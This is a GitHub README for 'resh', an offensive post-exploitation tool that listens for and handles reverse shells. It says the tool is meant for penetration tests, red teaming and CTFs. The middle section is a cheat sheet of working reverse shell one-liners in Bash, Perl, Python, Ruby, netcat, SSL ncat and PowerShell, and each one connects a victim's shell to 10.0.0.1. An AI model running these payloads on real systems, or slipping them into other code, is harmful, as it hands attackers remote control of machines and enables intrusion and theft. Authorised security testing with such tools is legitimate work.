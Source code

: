 # resh
### REverse Shell Handler
A simple and minimalistic post-exploitation tool to handle and interact with reverse shells. The server listens on two ports, default 80 and 443. The server handles SSL reverse shells as well. This is to facilitate penetration tests, red teaming exercises or CTFs.

### Installing
#### Dependencies
##### Debian/Ubuntu/Kali
```
$ apt install libssl-dev libreadline-dev
```
##### Arch Linux/Manjaro
```
$ apt install openssl readline
```
#### Downloading and compiling
```
$ git clone https://github.com/jlhk/resh
$ cd resh
$ make cert # Generating SSL certificates
$ make      # Compiling
```
### Reverse Shells
```
# Bash
bash -i >& /dev/tcp/10.0.0.1/80 0>&1

# Perl
perl -e 'use Socket;$i="10.0.0.1";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh 10.0.0.1 80

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 80 >/tmp/f

# SSL
ncat --ssl -e /bin/sh 10.0.0.1 443

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|ncat --ssl 10.0.0.1 443 >/tmp/f

# Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
### Usage
```
usage: ./resh [-hv] [-l port] [-L port] [-i] [-c cert] [-k key]

-l port         Listen port for no encryption. Default 80
-L port         Listen port for SSL encrypted traffic. Default 443
-k              SSL private key to use. Default ./certs/srv.key
-c              SSL cert to use. Default ./certs/srv.pem

Example:
        ./resh -c certs/srv.pem -k certs/srv.key
```
